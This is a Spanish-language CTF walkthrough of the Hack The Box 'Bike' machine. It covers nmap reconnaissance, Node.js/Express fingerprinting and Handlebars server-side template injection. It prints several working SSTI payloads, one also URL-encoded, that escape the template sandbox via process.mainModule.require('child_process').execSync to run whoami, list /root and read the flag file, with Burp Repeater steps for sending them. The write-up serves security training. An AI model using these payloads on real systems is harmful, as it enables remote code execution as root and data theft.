---------
- Tags: #CustomApplications #NodeJS #Reconnaisance #remotecodeexecution #serversidetemplateinjection #SSTI
--------



## 🌐 Información general

- **IP objetivo**: `10.129.137.245`
    
- **Servicio vulnerable**: Aplicación web Node.js sobre Express
    

## ✅ Task 1: ¿Qué puertos TCP detecta Nmap como abiertos?

🔠 **Respuesta**: `22,80`

### 🔎 Comando utilizado:

```bash
sudo nmap -p- -sS -sV 10.129.137.245
```



- `-p-`: escanea todos los puertos (1-65535).
    
- `-sS`: escaneo SYN (sigiloso, común para detectar puertos).
    
- `-sV`: detección de versiones de servicios.
    

Se identifican los puertos:

- **22/tcp** → Servicio SSH
    
- **80/tcp** → Servicio HTTP (web)


## ✅ Task 2: ¿Qué software está corriendo en el puerto web?

🔠 **Respuesta**: `Node.js`

Una vez accedemos a la página en `http://10.129.137.245`, se analiza con la extensión **Wappalyzer** en el navegador.

Este indica que el backend está implementado con **Node.js**, lo cual sugiere que podría ser vulnerable a ataques comunes como SSTI o problemas en Express mal configurado.



## ✅ Task 3: ¿Cuál es el nombre del framework web según Wappalyzer?

🔠 **Respuesta**: `express`

Wappalyzer identifica que el framework web utilizado es **Express**, que suele usarse junto con Node.js para aplicaciones web rápidas y ligeras.

### Captura anterior de Wappalyzer:

Detecta:

- Web Framework: `Express`
    
- Web Server: `Express`
    
- Programming Language: `Node.js`
    
- JavaScript Library: `jQuery`
    

Este conjunto sugiere una aplicación web moderna pero posiblemente vulnerable si hay malas prácticas.


## ✅ Task 4: ¿Qué vulnerabilidad se prueba al introducir `{{7*7}}`?

🔠 **Respuesta**: `Server Side Template Injection`

La inyección de plantillas del lado servidor (SSTI) ocurre cuando una entrada de usuario es procesada por un motor de plantillas sin ser correctamente filtrada.

- Al introducir `{{7*7}}` en una entrada reflejada y obtener `49`, se confirma la vulnerabilidad.
    
- Esto puede explotarse para lograr RCE dependiendo del motor de plantillas.



### 📥 Análisis del comportamiento:

- Se accede a `http://10.129.137.245`.
    
- Se encuentra un formulario en el que se puede enviar input de usuario.
    
- Se envía el payload `{{7*7}}`.



### 🧠 Resultado:

- La respuesta del servidor muestra un error tipo:

```bash
"Error: Parse error on line 1:",
"{{7*7}}",
"Expecting 'ID', 'STRING', ... got 'INVALID'"
```

### 📌 Conclusión:

Este mensaje de error indica que el input se está intentando procesar como una plantilla del lado del servidor. El error es sintáctico, no una simple impresión del input, por lo que se deduce que existe una **vulnerabilidad de tipo SSTI (Server Side Template Injection)**.

Este tipo de vulnerabilidad puede dar lugar a ejecución remota de código (RCE), dependiendo del motor de plantillas usado y su configuración.


## ✅ Task 5: ¿Qué motor de plantillas se está usando dentro de Node.js?

🔠 **Respuesta**: `Handlebars`



### 🧪 Cómo identificar el motor de plantillas:

1. Se envía el payload `{{7*7}}` en el formulario de la página.
    
2. La respuesta del servidor incluye un stack trace detallado.

### 🧠 Observación importante:

En la traza de error aparece:

```bash
at Parser.parseError (/root/Backend/node_modules/handlebars/...
```



### 🧠 Interpretación:

La traza de error específica muestra claramente que el motor de plantillas utilizado es **Handlebars**. Esto nos lo indica la ruta en la que se produce el error: `node_modules/handlebars/`.

### 📌 Conclusión:

El sistema backend está utilizando Handlebars como motor de plantillas. Esto es relevante porque la vulnerabilidad SSTI se comporta de forma distinta según el motor. Handlebars, aunque más limitado que otros como Nunjucks, puede permitir **RCE** si está mal configurado.


## ✅ Task 6: ¿Cuál es el nombre de la pestaña en BurpSuite usada para codificar texto?

🔠 **Respuesta**: `Decoder`



### 🧰 Detalles:

- **Decoder** es una pestaña de BurpSuite que permite codificar y decodificar datos (Base64, URL, HTML, etc.).
    
- Puede usarse para preparar o analizar datos intercambiados durante ataques o pruebas de seguridad.
    

### 📌 Conclusión:

Esta pestaña es útil para transformar rápidamente entradas y salidas, y validar si un dato ha sido codificado o manipulado en tránsito.


## ✅ Task 7: ¿Qué tipo de codificación se usa al enviar caracteres especiales en HTTP?

🌠 **Respuesta**: `url`

La codificación URL (tambien conocida como percent-encoding) es usada para representar caracteres especiales en una URL o en el cuerpo de una petición HTTP. Usa el símbolo `%` seguido de un código hexadecimal.

Ejemplo: 

```bash
{{7*7}} → %7B%7B7*7%7D%7D
```

Esto permite que los servidores interpreten correctamente los datos sin errores de sintaxis en el protocolo.

### 📥 Análisis:

- Cuando se desea enviar caracteres especiales como `{`, `}`, espacios, etc., en un HTTP request, estos deben ser codificados para evitar errores en la transmisión.
    
- El tipo de codificación más habitual es **URL Encoding** o **Percent Encoding**.
    
- Por ejemplo, el caracter `{` se convierte en `%7B`, y `}` en `%7D`.
    
### 📌 Conclusión:

Para mantener la integridad de los datos en el cuerpo de una petición HTTP, especialmente en pruebas de SSTI u otros ataques, usamos **URL encoding**.


## ✅ Task 8: ¿Qué hacer con el error "not defined" al enviar payloads de HackTricks?

🌠 **Respuesta esperada**: `require`

### 🔍 Análisis detallado:

Estamos intentando aprovechar la SSTI detectada con payloads avanzados extraídos de HackTricks:

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

### 🧲 Cómo se prueba paso a paso:

1. **Abrimos Burp Suite** y vamos al tab **Decoder**:
    
    - Pegamos el siguiente payload en texto

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

2. En **Decoder**, usamos la opción `Encode as → URL`.


    
3. Copiamos ese payload ya codificado.

```bash
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%7b%7b%74%68%69%73%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%65%61%63%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```
    
4. Vamos al tab **Repeater** de BurpSuite:
    
    - En el cuerpo de la petición colocamos:

```bash
email=<payload_codificado>&action=Submit
```

5. Hacemos clic en **Send**.
    
6. Observamos la respuesta. Si aparece un error del tipo:

```bash
"ReferenceError: require is not defined"
```



📌 Esto indica que el código se está intentando ejecutar, pero `require` no está definido directamente en el contexto de ejecución restringido que ofrece Handlebars.

✅ Por tanto, el valor que aparece como "not defined" es: `require`.


## ✅ Task 9: ¿Qué variable representa el scope global en el navegador, pero no en Node.js?

🌠 **Respuesta**: `global`

### 🔍 Explicación detallada:

Esta pregunta tiene como objetivo que entendamos la diferencia entre el entorno de ejecución **navegador** y **Node.js**, ya que afecta directamente al uso de objetos globales cuando buscamos hacer ejecución remota de comandos (RCE).

- En el navegador, `window` representa el objeto global que contiene todo: funciones, variables globales, etc.
    
- En Node.js, `window` **no existe**. En su lugar, se usa el objeto global llamado `global`.

### 💪 Prueba real para comprobarlo:

1. Abrimos una terminal y escribimos `node` para entrar en el REPL interactivo de Node.js.
    
2. Ejecutamos el siguiente código:

```bash
console.log(global)
```



Esto muestra todas las propiedades y funciones globales disponibles.

Luego probamos:

```bash
console.log(window)
```



📛 Resultado:
```bash
Uncaught ReferenceError: window is not defined
```

Esto demuestra que `window` es exclusivo del navegador, mientras que en Node.js la variable global se llama `global` (también accesible como `globalThis`).

Esta diferencia es importante porque en vulnerabilidades SSTI como la de esta máquina, usamos `global.process` para acceder al sistema —y no `window`—, ya que el entorno es Node.js.


## ✅ Task 10: ¿Como qué usuario se ejecuta el proceso vulnerable?

🌠 **Respuesta**: `root`

### 🌟 Objetivo:

Ejecutar el comando `whoami` desde la vulnerabilidad SSTI para descubrir el usuario del sistema bajo el cual se ejecuta la aplicación.

### 🖇 Por qué se usa `process.mainModule.require`

En Handlebars, el entorno de ejecución está **sandboxed**, lo que significa que funciones como `require()` están **prohibidas directamente**. Para acceder a ellas, debemos escapar el sandbox.

Esto se logra a través de la cadena:

```bash
process.mainModule.require("child_process")
```

- `process` es un objeto global accesible desde el sandbox.
    
- `mainModule` nos permite acceder al módulo principal.
    
- Desde ahí, podemos usar `.require()` para cargar módulos internos.
    

En este caso, cargamos `child_process` para ejecutar comandos con `.execSync()`.

### 🔹 Payload usado:

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

### ✉️ Proceso:

1. Pegamos el payload en **Burp Decoder**.
    
2. Codificamos como URL.
    
3. Sustituimos `email=` en el cuerpo de la petición de Repeater.
    
4. Hacemos clic en **Send**.

### 📅 Resultado:

En el HTML devuelto por el servidor:

```bash
We will contact you at: e
...
root
```



Esto nos confirma que la aplicación Node.js está siendo ejecutada como **usuario root**, lo que implica que podremos acceder a archivos en `/root`, como `flag.txt` sin hacer escalada de privilegios.

📢 Este payload se codifica como URL y se envía usando Burp Suite Repeater.

## ✅ Paso extra: Listar el contenido de `/root`

Una vez que sabemos que tenemos ejecución de comandos, podemos modificar el payload para ejecutar `ls /root`:

```bash

{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```



🌟 Esto confirma que existe un archivo `flag.txt` en `/root`, que puede ser leído con un payload similar utilizando `cat /root/flag.txt`.

```bash
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

Una vez codificado con URL encoding y enviado con Burp, obtendremos la flag en la respuesta del servidor.





## 🌟 Conclusión y análisis final detallado

La máquina Bike nos enseña de forma directa y práctica la explotación de vulnerabilidades del tipo **Server Side Template Injection (SSTI)** dentro de entornos Node.js usando el motor de plantillas **Handlebars**.

### ✍️ Proceso completo resumido:

1. **Reconocimiento:** identificamos Node.js y Express en la web del puerto 80.
    
2. **Pruebas de SSTI:** usando `{{7*7}}` vimos que el motor procesaba el input como plantilla.
    
3. **Identificación del motor:** por el error en la respuesta supimos que era Handlebars.
    
4. **Escalada de explotación:** usamos `process.mainModule.require` para evadir el sandbox.
    
5. **RCE (Ejecución Remota de Código):** ejecutamos `whoami` y comprobamos que el proceso corre como `root`.
    
6. **Acceso al sistema:** listamos y leímos `/root/flag.txt`, obteniendo la flag.
    

### ⚠️ Lección principal:

Reflejar directamente input de usuario en plantillas es una práctica **extremadamente peligrosa** si no se hace con escapes y validaciones estrictas. Esta máquina representa un caso realista donde un fallo básico compromete todo el sistema.